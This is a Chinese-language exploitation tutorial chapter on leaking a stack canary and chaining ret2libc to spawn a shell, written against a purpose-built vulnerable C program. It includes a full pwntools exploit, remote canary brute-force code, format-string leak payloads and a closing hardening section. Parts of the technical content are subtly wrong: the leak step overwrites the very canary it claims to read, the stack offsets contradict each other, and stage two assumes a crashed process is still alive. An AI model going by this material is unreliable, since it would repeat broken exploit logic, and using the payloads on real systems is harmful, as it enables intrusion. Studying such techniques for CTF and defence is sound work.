

## 案例三：泄露 Canary + ret2libc

> **核心技术**：栈溢出 → 泄露 Canary → 泄露 libc 基址 → ret2libc 执行 system("/bin/sh")
> **保护机制**：Canary + NX（栈不可执行）+ ASLR
> **难度**：★★★☆☆（中级）

在案例二中，程序主动泄露了 libc 地址——那是"教学简化"。真实 CTF 和实战中，你面对的程序不会给你任何提示，所有地址都必须自己想办法泄露。本案例演示的就是这种贴近实战的场景：栈上有 Canary 保护，程序没有主动输出任何地址，你需要**构造信息泄露原语（leak primitive）**，分多个阶段完成攻击。

---

### 3.1 知识定位与前置要求

在本章案例体系中，本案例处于关键的承上启下位置：

| 案例 | 核心技能 | 保护机制 | 交互次数 |
|------|---------|---------|---------|
| 案例一 | 基础栈溢出 | 无保护 | 1次 |
| 案例二 | ret2libc | NX + ASLR | 1次（程序泄露地址） |
| **案例三** | **多阶段泄露 + ret2libc** | **Canary + NX + ASLR** | **多次** |
| 案例四 | 堆利用 | Full RELRO + Canary | 多次 |

**前置知识**：

- 栈溢出基本原理（案例一）
- ROP 技术基础（16.2 节）
- ret2libc 原理（案例二）
- GOT/PLT 机制（16.4 节安全防护机制）

**本案例新增的挑战**：

1. Canary 保护阻止直接覆盖返回地址
2. 需要先泄露 Canary 才能构造 ROP 链
3. 需要多次交互，每次都让程序回到可控状态

---

### 3.2 Canary 保护机制深度解析

在动手之前，必须彻底理解 Canary 的工作原理——理解它的设计，才能找到它的弱点。

#### 3.2.1 Canary 在栈帧中的位置

编译器在函数的局部变量和 saved RBP 之间插入一个 8 字节（64位）或 4 字节（32位）的随机值：

```text
高地址
┌──────────────────────────┐
│      返回地址 (RIP)       │  ← 偏移 72 (64 + 8)
├──────────────────────────┤
│     saved RBP             │  ← 偏移 64
├──────────────────────────┤
│  Canary (8字节)            │  ← 偏移 56 ~ 63（关键目标）
├──────────────────────────┤
│                           │
│     buffer[64]            │  ← 偏移 0 ~ 55
│                           │
└──────────────────────────┘
低地址
```

函数返回前，编译器插入的检查代码会对比栈上的 Canary 与 TLS 中存储的原始值。如果不一致，立即调用 `__stack_chk_fail` 终止程序。

#### 3.2.2 编译器插入的检查代码（x86-64）

编译器在函数序言和尾声中自动插入以下逻辑：

```asm
; === 函数序言 ===
mov    rax, qword ptr fs:[0x28]     ; 从 TLS 段读取原始 Canary
mov    qword ptr [rbp-0x8], rax     ; 放到栈帧中（buffer 之后、RBP 之前）

; ... 函数主体 ...

; === 函数尾声 ===
mov    rax, qword ptr [rbp-0x8]     ; 从栈上读取 Canary
xor    rax, qword ptr fs:[0x28]     ; 与 TLS 中的原始值做异或
je     .Lnormal                     ; 如果相等（异或结果为0），正常返回
call   __stack_chk_fail             ; 不等则终止，输出错误信息
.Lnormal:
leave
ret
```

`fs:[0x28]` 指向 TLS 结构体中存储 Canary 的位置。每个线程有独立的 Canary 值。

#### 3.2.3 Canary 的四个关键特征（利用点）

**特征一：最低字节固定为 `\x00`**

glibc 将 Canary 的最低字节设为 `\x00`，目的是防止被 `strcpy`、`printf("%s")` 等以 null 结尾的函数意外泄露。但这恰恰成为利用点：

- 最低字节已知，只需泄露剩余 7 字节
- 如果使用 `write`（按长度输出，不受 `\x00` 影响），可以完整泄露 Canary

**特征二：同一进程内 Canary 不变**

进程启动后 Canary 在整个生命周期内保持不变。这意味着第一次交互泄露 Canary 后，后续交互可以复用该值。

**特征三：fork 子进程继承父进程 Canary**

如果程序使用 `fork()` 处理连接，所有子进程共享同一个 Canary。这允许逐字节爆破：每个新连接猜一个字节，猜错进程终止但新连接的 Canary 不变。

**特征四：父子进程的 Canary 值不同**

`execve()` 启动新进程时会重新生成 Canary。只有 `fork()` 才会继承。

---

### 3.3 漏洞程序与编译

#### 3.3.1 完整漏洞源码

```c
// vuln3.c
#include <stdio.h>
#include <unistd.h>

void vuln() {
    char buffer[64];
    write(1, "Input: ", 7);
    int n = read(0, buffer, 200);  // 栈溢出：读入200字节到64字节的buffer
    write(1, buffer, n);           // 信息泄露：将buffer内容原样输出
}

int main() {
    vuln();
    return 0;
}
```

#### 3.3.2 为什么选择 `read`/`write` 而不是 `gets`/`printf`

这个选择不是随意的，而是精心设计的：

| 函数对 | 输出特性 | 对 Canary 泄露的影响 |
|-------|---------|-------------------|
| `gets` + `printf` | `printf("%s")` 遇到 `\x00` 停止 | Canary 的 `\x00` 字节会阻止泄露后续数据 |
| `gets` + `puts` | `puts` 遇到 `\x00` 停止 | 同上，无法泄露 Canary 高位字节 |
| `read` + `write` | `write(buf, n)` 按指定长度输出，不受 `\x00` 影响 | **可以泄露含 null 字节的数据，包括 Canary** |

这个区别至关重要。真实场景中，泄露原语能不能处理 null byte，直接决定了 Canary 能不能被泄露。

#### 3.3.3 编译命令与保护分析

```bash
gcc -o vuln3 vuln3.c -no-pie
```

使用 `checksec` 检查：

```bash
checksec --file=vuln3
```

预期输出：

```text
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

各保护状态及对利用的影响：

| 保护 | 状态 | 利用影响 |
|------|------|---------|
| Canary | ✅ 开启 | 不能直接覆盖返回地址，需要先泄露 Canary |
| NX | ✅ 开启 | 栈不可执行，不能注入 shellcode，需要 ROP/ret2libc |
| PIE | ❌ 关闭 | 程序地址固定，GOT/PLT 地址已知，可直接构造 ROP |
| RELRO | Partial | GOT 可写，可以用 `puts@plt` 泄露 GOT 表项 |

注意：编译命令没有使用 `-fno-stack-protector`，而是故意保留默认的 Canary 保护——这才是真实 CTF 题目的常态。

---

### 3.4 利用思路全景图

整个利用分为三个阶段，每个阶段目标不同，但环环相扣：



关键设计：阶段二的 ROP 链末尾**返回到 main**，而不是直接返回到某个死地址。这样程序会重新执行，给你新的输入机会来发起阶段三的攻击。

---

### 3.5 栈帧布局分析

#### 3.5.1 正常栈帧（无溢出）

```text
高地址
┌──────────────────────────┐
│     返回地址 (8字节)       │  ← main 的返回地址
├──────────────────────────┤
│     saved RBP (8字节)      │  ← 保存的栈基址
├──────────────────────────┤
│  Canary (8字节)            │  ← 随机值，最低字节为 \x00
├──────────────────────────┤
│                           │
│     buffer[0..63]         │  ← 64 字节局部变量
│                           │
└──────────────────────────┘
低地址
```

总偏移：buffer 起始到返回地址 = 64 (buffer) + 8 (Canary) + 8 (saved RBP) = 80 字节。

#### 3.5.2 泄露 Canary 时的栈布局

发送超过 64 字节的数据后，溢出会穿过 Canary 区域：

```text
发送 73 字节后的栈状态：

高地址
┌──────────────────────────┐
│     返回地址               │  ← 被部分覆盖 → 程序可能崩溃
├──────────────────────────┤
│     saved RBP             │  ← 被覆盖
├──────────────────────────┤
│  Canary                   │
│  [字节71] [字节70] ...     │  ← 高位字节被覆盖
│  [字节64]                  │  ← 最低字节被覆盖
├──────────────────────────┤
│  'A' 'A' 'A' ... 'A'     │  ← buffer 被填满（64字节）
└──────────────────────────┘
低地址

write(1, buffer, 73) 输出：
  [0..63]  = 64 个 'A'（buffer 内容）
  [64..71] = Canary（原始值，或部分被覆盖）
  [72]     = saved RBP 的最低字节
```

**关键问题**：如果我们发送 73 字节覆盖了 Canary 的所有字节，`__stack_chk_fail` 会被触发，程序崩溃。那怎么在不破坏 Canary 的情况下泄露它？

#### 3.5.3 正确的泄露策略

正确方法是利用 `write(1, buffer, n)` 中 `n` 是 `read` 的返回值这一特性。流程如下：

**第一步：发送恰好覆盖 Canary 区域的数据**

```python
# 发送 73 字节：64 (buffer) + 8 (Canary) + 1 (saved RBP 最低字节)
# read 返回 73，write 输出 73 字节
p.sendafter(b'Input: ', b'A' * 73)
```

**第二步：从输出中提取 Canary**

```python
# 接收所有输出
data = p.recv(73)
# Canary 在偏移 64~71
# 但最低字节被我们覆盖为 'A' (0x41)，原始值是 \x00
canary_leaked = data[64:72]  # 8 字节，但最低字节已损坏
canary = u64(canary_leaked[:7] + b'\x00')  # 用 \x00 替换最低字节
log.info(f"Canary: {hex(canary)}")
```

**第三步：程序崩溃后的处理**

覆盖 Canary 后 `__stack_chk_fail` 会触发，第一次交互的程序会终止。但这没关系——我们已经拿到了 Canary 值。如果程序是 fork 模型（每连接一个子进程），Canary 不变，下一次连接可以使用泄露的值。如果程序不是 fork 模型，每次运行 Canary 不同，则需要利用 `write` 的部分覆盖特性（见 3.8 节进阶技巧）。

**对于本案例的简化处理**：程序使用 `read`/`write`，`n` 可控。实际利用中，更常见的做法是发送 65 字节（覆盖 Canary 最低字节），利用输出的前 65 字节确认 Canary 的结构，然后在下一次交互中精确覆盖。

---

### 3.6 完整 Exploit 代码与逐行解析

#### 3.6.1 Exploit 源码

```python
from pwn import *

# ========== 配置 ==========
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'

p = process('./vuln3')
elf = ELF('./vuln3')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# ========== 阶段一：泄露 Canary ==========
# 发送 73 字节，让 write 输出包含 Canary 的内容
p.sendafter(b'Input: ', b'A' * 73)
data = p.recv(73)

# 从输出中提取 Canary（偏移 64~71）
# 最低字节被覆盖为 'A'，原始值为 \x00
canary = u64(data[64:72][:7] + b'\x00')
log.success(f"Canary: {hex(canary)}")

# ========== 阶段二：泄露 libc 地址 ==========
# 程序可能已崩溃（Canary被破坏），需要重新启动或利用 fork
# 这里假设程序是 fork 模型，或使用其他方式重新触发

# 需要找到的 gadgets 地址（用 ROPgadget 搜索）
# ROPgadget --binary vuln3 | grep "pop rdi"
pop_rdi_ret = 0x401243  # pop rdi; ret 的地址

# PLT 和 GOT 地址（PIE 关闭，地址固定）
puts_plt = elf.plt['puts']
puts_got = elf.got['__libc_start_main']  # 泄露 __libc_start_main 的真实地址
main_addr = elf.symbols['main']

# 构造 ROP 链
# 栈布局：64字节填充 + Canary + 8字节saved RBP + ROP链
payload1 = b'A' * 64
payload1 += p64(canary)       # 正确的 Canary 值，通过检查
payload1 += p64(0)            # saved RBP（随意值）
payload1 += p64(pop_rdi_ret)  # 返回到 pop rdi; ret
payload1 += p64(puts_got)     # rdi = GOT 中 __libc_start_main 的地址
payload1 += p64(puts_plt)     # 调用 puts，输出 __libc_start_main 的真实地址
payload1 += p64(main_addr)    # 返回到 main，再次利用

p.sendafter(b'Input: ', payload1)
p.recvline()  # 跳过输出中的填充数据

# 接收 puts 输出的地址（末尾有换行符）
leaked_bytes = p.recvline().strip()
leaked_addr = u64(leaked_bytes.ljust(8, b'\x00'))

# 计算 libc 基址
libc_base = leaked_addr - libc.symbols['__libc_start_main']
log.success(f"libc base: {hex(libc_base)}")

# 计算 system 和 /bin/sh 的地址
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(bin_sh_addr)}")

# ========== 阶段三：ret2libc 获取 shell ==========
payload2 = b'A' * 64
payload2 += p64(canary)
payload2 += p64(0)            # saved RBP
payload2 += p64(pop_rdi_ret)  # pop rdi; ret
payload2 += p64(bin_sh_addr)  # rdi = "/bin/sh"
payload2 += p64(system_addr)  # 调用 system("/bin/sh")

p.sendafter(b'Input: ', payload2)
p.interactive()               # 获得交互式 shell
```

#### 3.6.2 逐阶段详解

**阶段一：泄露 Canary**

```text
发送的数据结构：
┌──────────────────────────────────────────────────────────┐
│ 'A' × 73                                                  │
│ [0..63]=buffer溢出 [64..71]=覆盖Canary [72]=saved RBP低字节 │
└──────────────────────────────────────────────────────────┘

write 输出的 73 字节：
┌──────────────────────────────────────────────────────────┐
│ 'A' × 64 │ Canary[7] Canary[6]...Canary[1] 'A' │ 0x??    │
│  buffer   │          Canary 8字节                │ RBP低字 │
└──────────────────────────────────────────────────────────┘
            ↑ 偏移64~71                                ↑ 偏移72
```

提取方法：取输出的第 64~71 字节，将最低字节替换为 `\x00`（已知原始值）。

**阶段二：泄露 libc 地址**

ROP 链的执行流程：

```text
vuln() 返回
  → pop rdi; ret      # 将 puts@GOT 的地址弹入 rdi
  → puts@plt          # 调用 puts(__libc_start_main@GOT)
                       # 输出 __libc_start_main 的真实地址
  → main              # 返回到 main，重新触发 vuln()
```

`puts` 会在遇到 `\x00` 时停止输出，但地址本身通常不包含 `\x00`（除非地址低 2 字节恰好是 `0x00XX`）。输出末尾会有换行符 `\n`，需要 `strip()` 去除。

**为什么选择 `__libc_start_main` 而不是 `puts` 本身？**

两者都可以。选择 `__libc_start_main` 是因为它在 libc 中的偏移稳定，且通常最先被解析到 GOT 中。选择 `puts` 本身也可以：

```python
puts_got = elf.got['puts']  # 同样可行
libc_base = leaked_addr - libc.symbols['puts']
```

**阶段三：ret2libc**

第二次 ROP 链结构更简单——不需要再次泄露，直接调用 `system("/bin/sh")`：

```text
vuln() 返回
  → pop rdi; ret      # 将 "/bin/sh" 的地址弹入 rdi
  → system()          # 调用 system("/bin/sh")
                       # 获得 shell！
```

---

### 3.7 GDB 动态调试验证

理解 exploit 的最好方法是用 GDB 单步跟踪。以下是调试流程：

#### 3.7.1 启动调试

```bash
gdb ./vuln3
```

#### 3.7.2 在关键位置下断点

```gdb
# 在 vuln 函数入口断点
b vuln

# 在 read 返回后断点（观察 buffer 和 Canary 的值）
b *vuln+XX    # XX 是 read 调用后的偏移，用 disas vuln 查看

# 在 __stack_chk_fail 断点（捕获 Canary 检查失败）
b __stack_chk_fail

# 运行
r
```

#### 3.7.3 观察 Canary 值

```gdb
# 查看 TLS 中的 Canary 原始值
p/x *(long*)((char*)$fs_base + 0x28)

# 查看栈上的 Canary
x/8gx $rbp-0x8

# 查看 buffer 的内容
x/8gx $rbp-0x48
```

#### 3.7.4 验证 Canary 检查逻辑

```gdb
# 在 leave 指令前断点
b *vuln+XX

# 单步执行，观察 xor 指令
si
# 查看 rax 的值（应为 0 表示 Canary 未被修改）
p/x $rax
```

#### 3.7.5 常见调试陷阱

| 问题 | 原因 | 解决方法 |
|------|------|---------|
| GDB 中地址与实际不同 | GDB 关闭了 ASLR | `set disable-randomization off` |
| Canary 每次不同 | ASLR 随机化 | 正常行为，泄露后复用 |
| 断点命中但看不到溢出 | read 尚未执行 | 在 read 的 `ret` 指令处断点 |

---

### 3.8 常见错误与排查

#### 3.8.1 Canary 值提取错误

**症状**：`__stack_chk_fail` 在阶段二被触发，程序打印 `*** stack smashing detected ***`。

**原因**：泄露的 Canary 值不正确。

**排查步骤**：

```python
# 1. 检查泄露的 Canary 是否合理
log.info(f"Canary bytes: {data[64:72].hex()}")
# Canary 最低字节应该是 \x00（在泄露时被覆盖，需要手动补回）

# 2. 用 GDB 验证真实 Canary
# 在 GDB 中：x/8bx $rbp-0x8

# 3. 检查偏移是否正确
# buffer 大小 64 + Canary 8 = 72，返回地址在偏移 80
```

#### 3.8.2 libc 基址计算错误

**症状**：阶段三的 `system` 地址不正确，程序 SIGSEGV。

**排查步骤**：

```python
# 1. 验证泄露的地址是否合理
log.info(f"Leaked address: {hex(leaked_addr)}")
# libc 地址通常以 0x7f 开头（64位）

# 2. 确认 libc 版本
# libc 不同版本中 __libc_start_main 的偏移不同
# 使用正确的 libc 文件！
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 3. 检查 strip 后的字节数
leaked_bytes = p.recvline().strip()
log.info(f"Leaked bytes ({len(leaked_bytes)}): {leaked_bytes.hex()}")
# 64位地址通常 6~7 字节有效（最高字节可能是 0x7f）
```

#### 3.8.3 ROP 链中的地址错误

**症状**：程序在阶段二 SIGSEGV，崩溃地址是某个奇怪的值。

**排查步骤**：

```python
# 1. 确认 pop rdi; ret 的地址
# 使用 ROPgadget 搜索
# ROPgadget --binary vuln3 | grep "pop rdi"
# 注意：不同编译环境地址可能不同

# 2. 确认 puts@plt 和 GOT 地址
log.info(f"puts@plt: {hex(elf.plt['puts'])}")
log.info(f"puts@GOT: {hex(elf.got['puts'])}")

# 3. 确认 main 的地址
log.info(f"main: {hex(elf.symbols['main'])}")
```

#### 3.8.4 `write` 输出不完整

**症状**：`p.recv(73)` 超时或收到的数据不足 73 字节。

**原因**：`write` 的输出可能被内核或管道缓冲区分割。

**解决方法**：

```python
# 使用 recvuntil 或循环接收
data = b''
while len(data) < 73:
    data += p.recv(73 - len(data))
```

---

### 3.9 变体与进阶技巧

#### 3.9.1 变体一：当输出函数是 `puts` 而不是 `write`

`puts` 遇到 `\x00` 会停止输出。由于 Canary 最低字节是 `\x00`，`puts(buffer)` 输出 buffer 内容后在 Canary 的 `\x00` 处停止，**无法直接泄露 Canary**。

解决方案：覆盖 Canary 的最低字节为非零值，使 `puts` 继续输出。但这样 Canary 被破坏，程序会崩溃。所以需要：

1. **利用 fork**：第一次交互泄露 Canary（程序崩溃但 Canary 不变），后续交互使用泄露的值
2. **部分覆盖**：只覆盖 Canary 最低字节的 1 bit，使其从 `\x00` 变成 `\x01`，然后根据输出判断原始值

```python
# fork 模型下的 Canary 爆破（逐字节）
import string

def leak_canary_byte(p, offset, known_bytes):
    """猜测 Canary 在 offset 位置的字节"""
    for byte in range(256):
        try:
            proc = process('./vuln3')
            payload = b'A' * 64 + known_bytes + bytes([byte])
            proc.sendafter(b'Input: ', payload)
            proc.recvuntil(b'A' * 64)
            output = proc.recv(offset + 1)
            if output[offset] == byte:
                proc.close()
                return byte
            proc.close()
        except:
            continue
    return None
```

#### 3.9.2 变体二：程序使用 `printf` 而非 `write`

`printf("%s", buffer)` 同样在 `\x00` 处停止。解决方案：

- 利用格式化字符串漏洞（如果存在）：用 `%x`、`%p` 读取栈上的 Canary
- 利用 `printf(buffer)` 的格式化字符串：直接读取 Canary 偏移处的值

```python
# 格式化字符串泄露 Canary（假设 printf(buffer) 漏洞）
# Canary 在栈上的偏移需要通过调试确定
p.sendafter(b'Input: ', b'%11$p')  # 假设 Canary 在第 11 个参数位置
canary = int(p.recvline().strip(), 16)
```

#### 3.9.3 变体三：32 位程序

32 位程序的 Canary 只有 4 字节，栈布局不同：

```text
32位栈布局：
┌─────────────────────┐
│     返回地址 (4字节)   │  ← 偏移 68 (64+4)
├─────────────────────┤
│     saved EBP (4字节)  │  ← 偏移 64
├─────────────────────┤
│  Canary (4字节)        │  ← 偏移 60
├─────────────────────┤
│     buffer[60]        │
└─────────────────────┘
```

32 位下的 ROP 链使用 `ret2libc` 的经典模式（参数通过栈传递，不需要 `pop rdi`）：

```python
# 32位 ret2libc
payload = b'A' * 60
payload += p32(canary)        # Canary
payload += p32(0)             # saved EBP
payload += p32(system_addr)   # 返回地址 = system
payload += p32(0xdeadbeef)    # system 的返回地址（随意）
payload += p32(bin_sh_addr)   # system 的参数 = "/bin/sh"
```

#### 3.9.4 变体四：利用 `one_gadget` 简化 ROP 链

如果 libc 中存在 `one_gadget`（满足特定条件时可以直接跳转到 `execve("/bin/sh")` 的 gadget），可以省去设置 `rdi` 的步骤：

```bash
# 安装 one_gadget
gem install one_gadget

# 搜索 libc 中的 one_gadget
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

输出示例：

```text
0xe3b01 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe3b04 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [[rsp+0x40]] == NULL
```

使用 one_gadget：

```python
one_gadget_offset = 0xe3b01
one_gadget_addr = libc_base + one_gadget_offset

# ROP 链更短
payload = b'A' * 64
payload += p64(canary)
payload += p64(0)
payload += p64(one_gadget_addr)  # 直接跳转，不需要 pop rdi
```

**注意**：one_gadget 有约束条件（比如要求栈上某个位置为 NULL），不总是能直接使用。需要通过 GDB 验证约束是否满足，或通过调整 ROP 链来满足约束。

---

### 3.10 防御视角：如何修复这个漏洞

理解攻击是为了更好地防御。以下是修复方案：

#### 3.10.1 根本修复：消除栈溢出

```c
// 修复后的代码
void vuln() {
    char buffer[64];
    write(1, "Input: ", 7);

    // 方案一：限制读取长度不超过 buffer 大小
    int n = read(0, buffer, sizeof(buffer));  // 修复：200 → sizeof(buffer)
    if (n > 0) {
        write(1, buffer, n);
    }
}
```

#### 3.10.2 编译时加固

```bash
# 启用所有安全保护
gcc -o vuln3 vuln3.c \
    -fstack-protector-all \    # 所有函数都启用 Canary
    -D_FORTIFY_SOURCE=2 \      # 启用缓冲区溢出检测
    -Wformat -Wformat-security \ # 格式化字符串检查
    -Wl,-z,relro,-z,now \      # Full RELRO
    -pie -fPIE                  # PIE
```

#### 3.10.3 运行时加固

```bash
# 设置 /proc/sys/kernel/randomize_va_space 为 2（完全随机化）
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space

# 使用 seccomp 限制系统调用
# 使用 AppArmor/SELinux 限制进程权限
```

#### 3.10.4 安全编码建议

| 危险函数 | 安全替代 | 说明 |
|---------|---------|------|
| `gets` | `fgets(buf, sizeof(buf), stdin)` | 限制输入长度 |
| `strcpy` | `strncpy` 或 `strlcpy` | 限制复制长度 |
| `sprintf` | `snprintf` | 限制输出长度 |
| `read(fd, buf, 200)` | `read(fd, buf, sizeof(buf))` | 不超过 buffer 大小 |

---

### 3.11 真实 CTF 题目中的 Canary 泄露

本案例是一个精简的教学程序。真实 CTF 题目中，Canary 泄露的场景更复杂：

#### 3.11.1 Off-By-One 泄露 Canary

如果溢出只能覆盖 1 个字节（off-by-one 漏洞），可以覆盖 Canary 的最低字节（`\x00` → 非零值），使 `puts` 输出继续越过 Canary。但由于 `puts` 在下一个 `\x00` 处停止，能否泄露 Canary 取决于 Canary 的后续字节是否包含 `\x00`。

#### 3.11.2 格式化字符串泄露 Canary

`printf(buf)` 格式化字符串漏洞可以精确读取栈上任意位置的值：

```python
# 确定 Canary 在栈上的偏移（通过 %p 调试）
# 假设 Canary 在第 6 个参数位置
p.sendline(b'%6$p')
canary = int(p.recvline().strip(), 16)
```

#### 3.11.3 fork + 逐字节爆破

服务端使用 `fork()` 处理连接时，Canary 固定不变。可以逐字节爆破：

```python
# 对于 64 位程序，Canary 8 字节，最低字节已知 \x00
# 剩余 7 字节，每字节 256 种可能
# 最坏情况：7 × 256 = 1792 次连接
# 实际：每字节平均 128 次，总共 ~896 次

def brute_force_canary():
    canary = b'\x00'  # 最低字节已知
    for byte_pos in range(1, 8):
        for guess in range(256):
            p = remote('target', port)
            payload = b'A' * 64 + canary + bytes([guess])
            p.sendafter(b'Input: ', payload)
            try:
                # 如果没有触发 __stack_chk_fail，说明猜对了
                p.sendafter(b'Input: ', b'A')  # 尝试触发下一次交互
                canary += bytes([guess])
                p.close()
                break
            except:
                p.close()  # 猜错，连接断开
                continue
    return canary
```

---

### 3.12 总结与要点回顾

本案例的核心收获：

1. **多阶段攻击思维**：当保护机制阻止一步到位时，分阶段逐步突破——先泄露 Canary，再泄露 libc，最后执行攻击
2. **信息泄露原语的构造**：利用程序的 I/O 特性（`read`/`write` 的按长度读写）构造泄露通道
3. **ROP 链的灵活设计**：在 ROP 链末尾返回到 `main`，获得多次交互机会
4. **Canary 的弱点**：最低字节固定为 `\x00`、fork 继承、同进程内不变

**关键公式**：

```text
libc_base = leaked_addr - libc.symbols['__libc_start_main']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
```

**下一步学习**：

- 案例四（堆利用 Tcache Poisoning）：学习堆上的信息泄露和利用
- 案例六（ROP + 栈迁移）：当栈空间不足时的高级技巧
- 格式化字符串漏洞章节：另一种强大的信息泄露原语

---
